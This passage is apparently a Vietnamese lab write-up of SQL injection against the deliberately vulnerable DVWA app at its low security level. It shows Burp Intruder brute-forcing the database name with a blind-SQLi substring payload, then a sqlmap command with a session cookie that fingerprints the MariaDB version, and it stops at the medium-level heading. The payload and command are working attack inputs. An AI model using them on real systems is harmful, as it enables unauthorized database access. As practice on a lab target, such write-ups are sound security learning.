 mình đưa request vào intruder trong burp suit để brute force

![image](https://hackmd.io/_uploads/Byuw_4xe0.png)

- mình set payload là các số

![image](https://hackmd.io/_uploads/rkAouEeeC.png)

- lọc kết quả trả về

![image](https://hackmd.io/_uploads/BkMxFNxxC.png)

- và mình được độ dài tên của database là 4

![image](https://hackmd.io/_uploads/SyTGKEee0.png)

- tiếp theo mình sẽ brute force các ký tự trong tên của database với lệnh

```sql
1' and substr(database(), 1, 1) = "a"-- -
```

và mình để chế độ brute force cluster bomb

![image](https://hackmd.io/_uploads/HJjroNgxR.png)

- mình set payload 1 là các số từ 1-4

![image](https://hackmd.io/_uploads/SkD6cVegA.png)

- mình set payload 2 là các ký tự trong bảng chữ cái tiếng anh từ a-z

![image](https://hackmd.io/_uploads/rk0yoNgl0.png)

- tiến hành tấn công và mình được tên của database là **dvwa**

![image](https://hackmd.io/_uploads/r1PdsNgg0.png)

### SQLMAP

- mình chạy lệnh sau để tìm version của database

```sql
sqlmap -u "http://192.168.1.58/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=id5sj964f9vju55b5sfj1dstqa" --batch --fingerprint -banner
```

- kết quả phát hiện có thể tấn công với câu lệnh UNION, boolean-based blind, time-based blind

![image](https://hackmd.io/_uploads/Bygfsaex0.png)

- và mình được version được dùng trong database là **10.4.28-MariaDB**

![image](https://hackmd.io/_uploads/Hy7LsaxgR.png)

## MEDIUM LEVEL
